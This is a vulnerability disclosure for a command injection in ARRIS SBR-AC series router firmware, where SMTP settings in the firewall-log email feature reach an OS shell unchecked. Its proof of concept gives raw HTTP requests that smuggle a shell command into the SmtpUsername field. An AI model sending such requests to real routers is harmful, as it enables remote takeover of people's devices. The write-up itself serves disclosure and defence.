

# ARRIS Vulnerability

Vendor:ARRIS

Product:SBR-AC1900P、SBR-AC3200P、SBR-AC1200P

Version:1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000REKViAAP&c=SURFboard%20Routers#panel4)

1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlajgAAB&c=SURFboard%20Routers#panel4)

1.0.5-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000RpnMpAAJ&c=SURFboard%20Routers#panel4)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `firewall-local log` function, `EmailAddress、SmtpServerName、SmtpUsername、SmtpPassword` is directly passed by the attacker, so we can control the `EmailAddress、SmtpServerName、SmtpUsername、SmtpPassword` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `scnvram_set` to store this input.

<div  align="center"></div>

<div  align="center"></div>

In `sub_33B70` function, the initial input has not checked and cause command injection.

<div  align="center"></div>

**The prerequisites for reaching the vulnerability point are ②: The firewall function needs to be turned on, and there are firewall logs.（v15.st_size<=10）**

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.What’s more interesting is that in the front-end interface, the user’s input is not checked either.

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* Turn on the firewall function and be able to store certain log information
* Set smtp configuration and apply
* Send_Email_Log

> Complete vulnerability verification on SBR-AC1900P product


## PoC

Turn on the firewall function and be able to store certain log information

```http
POST /setup.cgi?id=56c3f184 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/RgContentFilter.htm
Cookie: RebootType=1
Upgrade-Insecure-Requests: 1

firewall_option=3&v6firewall_option=0&PortScanDetection=1&this_file=RgContentFilter.htm&next_file=RgContentFilter.htm
```

<div  align="center"></div>

<div  align="center"></div>

**After enabling the above functions, use any machine to execute the ping command, the purpose is to save the information in the firewall log of the router (in order to trigger the vulnerability, the firewall log is necessary)**

At this time, the firewall log has saved a small amount of information, and the vulnerability triggering conditions have been met.

<div  align="center"></div>

Set smtp configuration and apply

```http
POST /setup.cgi?id=3b9f8a00 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 223
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/RgFirewallEL.htm
Cookie: RebootType=1
Upgrade-Insecure-Requests: 1

EmailAddress=pengjiaqian%40iie.ac.cn&SmtpServerName=smtp.gmail.com&SmtpUsername=%3B%2Fusr%2Fsbin%2Fls%3E.%2Fhack1.txt%3B&SmtpPassword=123123123&EmailAlerts=1&LogAction=0&this_file=RgFirewallEL.htm&next_file=RgFirewallEL.htm
```

<div  align="center"></div>

<div  align="center"></div>

We set `SmtpUsername` as **`%3B%2Fusr%2Fsbin%2Fls%3E.%2Fhack1.txt%3B`** , The meaning of this command is **;/usr/sbin/ls>./hack1.txt;**，and the router will excute it,such as:

```http
POST /setup.cgi?id=7bd13f54 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 222
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/RgFirewallEL.htm
Cookie: RebootType=1
Upgrade-Insecure-Requests: 1

EmailAddress=pengjiaqian%40iie.ac.cn&SmtpServerName=smtp.gmail.com&SmtpUsername=%3B%2Fusr%2Fsbin%2Fls%3E.%2Fhack1.txt%3B&SmtpPassword=123123123&EmailAlerts=&LogAction=1&this_file=RgFirewallEL.htm&next_file=RgFirewallEL.htm
```

<div  align="center"></div>

<div  align="center"></div>


## Result

<div  align="center"></div>
